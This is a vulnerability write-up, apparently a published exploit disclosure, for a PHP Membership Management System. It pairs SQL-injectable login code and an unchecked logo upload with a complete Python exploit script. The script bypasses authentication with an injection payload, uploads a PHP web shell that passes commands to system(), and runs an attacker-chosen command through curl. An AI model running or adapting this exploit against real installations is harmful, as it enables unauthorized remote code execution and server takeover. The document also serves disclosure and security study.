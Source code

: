 ```yaml
---
title: Membership Management System SQL injection + Insecure File Upload = Remote Code Execution
published: true
---
```


### Creating and operating a demo environment

[ -> link <- ](https://github.com/Sospiro014/zday1/tree/main/Membership_Management_System_demo)


### SQL injection Vulnerability details :
[ -> SQL injection <- ](https://sospiro014.github.io/Membership-Management-System-SQL-injection)

### File upload Vulnerability:

The provided code is part of a Membership Management System. It contains a vulnerability known as "Insecure File Upload." Insecure File Upload vulnerabilities arise when a web application allows users to upload files without proper validation and security measures. In this context, the system accepts file uploads for elements such as logos without adequate scrutiny, potentially allowing malicious files to be uploaded.

### Vulnerability Details:
- Application Name: Membership Management System
- Software Link: [ -> Download Link <- ](https://codeastro.com/membership-management-system-in-php-with-source-code/)
- Vendor Homepage: [ -> Vendor Homepage <- ](https://codeastro.com/author/nbadmin/)
- Date: 14.03.2024
- Exploit Author: SoSPiro
- Bugs: SQL injection + Insecure File Upload = Remote Code Execution
- Version: 1.0
  
### The vulnerability lies in the following code snippet:

- Sql injection Section `MembershipM-PHP/index.php`

```php
$email = $_POST['email'];
$password = $_POST['password'];

$hashed_password = md5($password);
$sql = "SELECT * FROM users WHERE email = '$email' AND password = '$hashed_password'";
```

- File Upload Section
`MembershipM-PHP/settings.php`

```php
if (isset($_FILES['logo']) && $_FILES['logo']['error'] === UPLOAD_ERR_OK) {
    $logoName = $_FILES['logo']['name'];
    $logoTmpName = $_FILES['logo']['tmp_name'];
    $logoType = $_FILES['logo']['type'];
    $uploadPath = 'uploads/';

    $targetPath = $uploadPath . $logoName;
    if (move_uploaded_file($logoTmpName, $targetPath)) {
        $updateSettingsQuery = "UPDATE settings SET system_name = '$systemName', logo = '$targetPath', currency = '$currency' WHERE id = 1";
        $updateSettingsResult = $conn->query($updateSettingsQuery);

        if ($updateSettingsResult) {
            $successMessage = 'System settings updated successfully.';
        } else {
            $errorMessage = 'Error updating system settings: ' . $conn->error;
        }
    } else {
        $errorMessage = 'Error moving uploaded file.';
    }
}

```

### Exploit :


```python
from requests_toolbelt.multipart.encoder import MultipartEncoder
import requests
import string
import random
import os


# generate random string 8 chars
def randomGen(size=8, chars=string.ascii_lowercase):
    return ''.join(random.choice(chars) for _ in range(size))

# generating a random username and a random web shell file
shellFile = randomGen() + ".php"

# creating a payload for the login
payload = {
    "email": "test@mail.com' or 0=0 #",
    "password": "a",
    "login": ""
}

session = requests.Session()

# changeme
urlBase = "http://172.17.86.197/" # change this target ip :)

# login
url = urlBase + "index.php"
print("=== executing SQL Injection ===")
req = session.post(url, payload, allow_redirects=False)

# check if 'Set-Cookie' header is present in the response
if 'Set-Cookie' in req.headers:
    cookie = req.headers["Set-Cookie"]
    print("=== authenticated admin cookie:" + cookie + " ===")
else:
    print("Set-Cookie header not found in the response.")
    exit()

# upload shell
url = urlBase + "settings.php"

# Get user input for the command to execute
cmd_input = input("Enter the command to execute: ")

# PHP code to execute the command received from the user
php_code = "<?php if(isset($_REQUEST['cmd'])){$cmd = ($_REQUEST['cmd']); system($cmd);die; }?>"

mp_encoder = MultipartEncoder(
    fields={
        "systemName": "Membership System",
        "currency": "$",
        "logo": (shellFile, php_code, "application/x-php"),
        "updateSettings": ""
    }
)

headers = {
    "Cookie": cookie,
    'Content-Type': mp_encoder.content_type
}

print("=== login user and uploading shell " + shellFile + " ===")
req = session.post(url, data=mp_encoder, allow_redirects=False, headers=headers)

# curl the shell for test
requestUrl = "curl " + urlBase + "uploads/" + shellFile + "?cmd=" + cmd_input
print("=== issuing the command: " + requestUrl + " ===")

print("=== CURL OUTPUT ===")
os.system(requestUrl)

```




